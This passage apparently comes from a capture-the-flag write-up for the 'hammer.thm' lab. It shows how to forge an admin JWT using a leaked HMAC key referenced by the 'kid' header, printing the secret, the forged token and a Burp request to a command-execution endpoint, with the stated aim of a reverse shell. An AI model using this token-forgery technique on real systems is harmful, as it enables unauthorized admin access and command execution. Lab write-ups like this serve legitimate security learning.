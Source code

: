 Interesting, so now we have a token which set us role as user, maybe the admin can run all commands and we can use it to get a reverse shell.
Since we found the key, we can confirm that it has been used for the JWT tooken inserting it with the token in a website like https://jwt.io.
This means that we can forge a new token with our role set to admin:

Token header:
```json
  "alg": "HS256",
  "kid": "/var/www/html/188ade1.key"
}
```

Payload:
```json
{
  "iss": "http://hammer.thm",
  "aud": "http://hammer.thm",
  "iat": 1741725682,
  "exp": 1741729282,
  "data": {
    "user_id": 1,
    "email": "tester@hammer.thm",
    "role": "admin"
  }
}
```

Signature:
```json
HMACSHA256(
  base64UrlEncode(header) + "." +
  base64UrlEncode(payload), 
  56058354efb3daa97ebab00fabd7a7d7
)
```

New token:
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiIsImtpZCI6Ii92YXIvd3d3L2h0bWwvMTg4YWRlMS5rZXkifQ.eyJpc3MiOiJodHRwOi8vaGFtbWVyLnRobSIsImF1ZCI6Imh0dHA6Ly9oYW1tZXIudGhtIiwiaWF0IjoxNzQxNzI1NjgyLCJleHAiOjE3NDE3MjkyODIsImRhdGEiOnsidXNlcl9pZCI6MSwiZW1haWwiOiJ0ZXN0ZXJAaGFtbWVyLnRobSIsInJvbGUiOiJhZG1pbiJ9fQ.uocuTjST5jajnsNExwYASHTFj0WkpBhsUDUx3WeYnxc
```

Now we have to change the old ones with this new in 2 headers in the Burp Suite request: `Authorization` and `Cookie` like this:
```http
POST /execute_command.php HTTP/1.1
Host: hammer.thm:1337
Content-Length: 20
Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiIsImtpZCI6Ii92YXIvd3d3L2h0bWwvMTg4YWRlMS5rZXkifQ.eyJpc3MiOiJodHRwOi8vaGFtbWVyLnRobSIsImF1ZCI6Imh0dHA6Ly9oYW1tZXIudGhtIiwiaWF0IjoxNzQxNzI1NjgyLCJleHAiOjE3NDE3MjkyODIsImRhdGEiOnsidXNlcl9pZCI6MSwiZW1haWwiOiJ0ZXN0ZXJAaGFtbWVyLnRobSIsInJvbGUiOiJhZG1pbiJ9fQ.uocuTjST5jajnsNExwYASHTFj0WkpBhsUDUx3WeYnxc
X-Requested-With: XMLHttpRequest
Accept-Language: en-US,en;q=0.9
Accept: */*
Content-Type: application/json
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Origin: http://hammer.thm:1337
Referer: http://hammer.thm:1337/dashboard.php
Accept-Encoding: gzip, deflate, br
```